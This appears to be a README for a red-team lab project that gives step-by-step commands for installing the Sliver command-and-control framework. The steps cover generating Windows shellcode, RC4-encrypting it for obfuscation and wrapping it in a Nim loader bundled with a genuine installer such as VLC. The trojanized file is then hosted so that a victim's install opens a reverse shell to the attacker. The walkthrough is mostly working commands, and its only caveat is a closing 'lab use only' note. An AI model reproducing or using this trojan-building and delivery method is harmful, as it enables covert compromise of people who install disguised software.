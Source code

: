 ## Environment Setup & Configuration
### Sliver Configuration
  1. Install Sliver
    ```
      curl https://sliver.sh/install|sudo bash
    ```
  2. Start Sliver Components
    - sliver-server
    - sliver-client
  3. Create Listener in sliver-client
    ```
      http -L <IP> - l <PORT>
    ```
2. Payload Generation
   ```
     generate --http --os windows --arch amd64 --format shellcode --s /path/to/shellcode.bin
   ```
3. Payload Obfuscation
   - Compile [rc4_encrypt.c](/scripts/rc4_encrypt.c)
   ```
     gcc <FILE.C> -o <OUTPUT>
   ```
   - Encrypt Shellcode Using RC4
   ```
     ./rc4_encrypt shellcode.bin
   ```
4. Payload Delivery
  - Compile [Wrapper Nim](/src/wrapper.nim) (Compilation made on a Windows host)
  ```
    nim c -d:danger --cpu:amd64 --os:windows --ap:gui wrapper.nim
  ```
  - Make sure the following files are in the same directory:
  `shellcode.enc` `installer.exe` `wrapper.nim`

7. Host Trojanized Payload
   ```
   python3 -m http.server <PORT>
   ```
8. Simulate User Behavior
- User visits landing page
- Downloads “Original” VLC (or any other installer .exe)
- Installs the trojanized program
- Reverse shell callback is triggered

9. Listener Active
- Make sure your Sliver listener is running and waiting for a callback.

> [!NOTE]
> Tested on Windows 10 x64. For lab use only — do not deploy in real environments
